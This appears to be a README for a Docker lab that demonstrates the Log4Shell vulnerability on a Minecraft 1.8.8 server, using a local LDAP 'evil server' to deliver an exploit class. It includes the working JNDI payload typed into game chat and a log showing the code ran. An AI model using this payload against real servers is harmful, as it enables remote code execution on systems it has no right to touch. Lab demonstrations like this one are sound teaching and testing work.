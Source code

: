 # Overview



## Setting up the environment

- Download [Docker](https://www.docker.com/products/docker-desktop/)
- Launch your [Minecraft](https://www.minecraft.net/en-us/download) game and install version 1.8.8 (Installations > New Installations > release 1.8.8).
- Install [Python 3+](https://www.python.org/downloads/)
- Java 8 ([build 181](https://archive.org/download/Java-Archive/Java%20SE%208%20%288u202%20and%20earlier%29/8u181/JDK/))

## Starting up the Minecraft server on Docker


0. `cd` to the current directory (where this README.md file is located)
1. Build the docker image:
```
docker build -t linux-server .
```
2. Run the docker image (iterative mode):
```
docker run -it -p 25565:25565 --name mcserver linux-server
```


The command above will start up a Docker container that is running the minecraft server (`minecraft_server.1.8.8.jar`). 



## Starting up a Malicious Server

Now we will starup an LDAP server that will serve the exploit (`MinecraftLog4J.java`).

1. Build the docker file for the malicious server
```
docker build -f Dockerfile_evil_server -t evil-image .
```

2. Run the docker image 

```
docker run -it -p 1389:1389 -p 8000:8000 --name evil-server evil-image
```

## Connect to the Minecraft Server from the Host Machine

After running the Docker container, you should be able to connect to the Minecraft server from the host machine:

1. Launch the Minecraft game on your host machine (release 1.8.8).
2. Select "Multiplayer"
3. Click "Add Server" and enter the following:
- Server Name: Any name you like.
- Server Address: localhost (or 127.0.0.1).
- Save and click "Join Server" to connect.

4. Once in game, type in chat:

```
${jndi:ldap://host.docker.internal:1389/MinecraftLog4J}
```


You will see in the output of your Minecraft server docker, a message like this:

```
[HH:MM:SS] [Server thread/INFO]: <PlayerName> ${jndi:ldap://host.docker.internal:1389/MinecraftLog4J}
!!HACKED!! (OS = linux )
!!HACKED!! (OS = linux )
```

This means that the exploit did execute succesfully.




